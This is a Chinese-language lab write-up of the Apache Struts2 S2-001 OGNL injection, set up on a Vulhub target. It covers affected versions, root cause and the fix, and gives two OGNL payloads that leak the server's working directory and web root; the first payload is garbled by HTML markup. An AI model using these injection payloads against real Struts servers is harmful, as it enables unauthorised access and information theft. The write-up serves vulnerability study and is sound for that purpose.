





# 【Struts2 - 命令 - 代码执行漏洞分析系列】 S2-001

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：altSyntax、s标签表单、Action验证失败回填、递归OGNL；列WebWork2.1及2.2.0–2.2.5、Struts2.0–2.0.8
- 证据范围：触发条件和WebWork旧版本比245完整，实际仅演示信息获取表达式，不包含独立命令执行PoC。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 第一个payload被HTML span包裹且加号丢失为留白，需恢复
- user.dir是工作目录不是固定Tomcat bin
- 修复引述%{1 1}加号丢失，XWork2.0.4与Struts发布版本对应应明确
- 缺完整表单字段/请求与环境清单，依赖Vulhub截图
- 页脚S2-048仅推荐，不计主问题；推广分隔图应移除

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/BLchiURuoh_PB8Qv-1Rt1g)

  

**漏洞信息：**

**漏洞信息页面：** 

https://cwiki.apache.org/confluence/display/WW/S2-001

  
**漏洞成因官方概述：**

Remote code exploit on form validation error

**漏洞影响：**  
WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8



**环境搭建：**  
用 vulhub 靶场进行搭建，非常方便

  
    
  

我已经搭建完成，这个图片是已经搭建完成的，使用 docker ps 命令 查看已经搭建好的靶场容器。

  
**原理：**

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value}

  
进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value}

  
对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行 

  
**利用过程：**  
进入靶场

  
    
这个漏洞的问题在于可以直接输入和直接回显  
将 POC 粘到一个输入框，点击 Submit  
此后会将数据提交到后端，后端检测值是否为空，然后返回，满足漏洞前提  
获取 tomcat 执行路径：  

```
<span class="token operator">%</span><span class="token punctuation">{</span><span class="token string">"tomcatBinDir{"</span><span class="token operator"> </span><span class="token annotation punctuation">@java</span><span class="token punctuation">.</span>lang<span class="token punctuation">.</span>System<span class="token annotation punctuation">@getProperty</span><span class="token punctuation">(</span><span class="token string">"user.dir"</span><span class="token punctuation">)</span><span class="token operator"> </span><span class="token string">"}"</span><span class="token punctuation">}</span>
```

  

获取 Web 路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

    
**总结：**

最后总结一下 S2-001 的一个触发条件：开启 altSyntax 功能；使用 s 标签处理表单；action 返回错误；OGNL 递归处理

  
值得一提的是 Struts2 官方给出了一个解决办法中提到了：从 XWork 2.0.4 开始，OGNL 解析被更改，因此它不是递归的。因此，在上面的示例中，结果将是预期的％{1 1}。

  
也就是只会获取到 username 的内容，而不会再把 username 里的内容再执行一遍。


推荐文章 ++++


*[Struts2-Scan 一款全漏洞扫描利用工具](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650458569&idx=4&sn=64c720a722b75c34fac399fe042bd5e8&chksm=83bbac2db4cc253beb1c0e84ea287d9efc6b2e9679dad4b11372e65f25e718f7ad43dbbe9c71&scene=21#wechat_redirect)

*[Python 编写的开源 Struts2 全版本漏洞检测工具](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650444040&idx=5&sn=88035264f9fdadb5583756604aa3421d&chksm=83bbf4ecb4cc7dfa412091fa5344af3d8085f03cb0ac18b680a6452d8bf724ec48965e44c5d1&scene=21#wechat_redirect)

*[Struts2 再爆高危漏洞 S2-048 来了](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650442889&idx=1&sn=65a7488342b638d2db4b260790eebbf7&chksm=83bbe96db4cc607b12834df5bb5fe8a0c6d8d1b93ef1de7ad73a1aa6fa54fad21229d15d8532&scene=21#wechat_redirect)


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
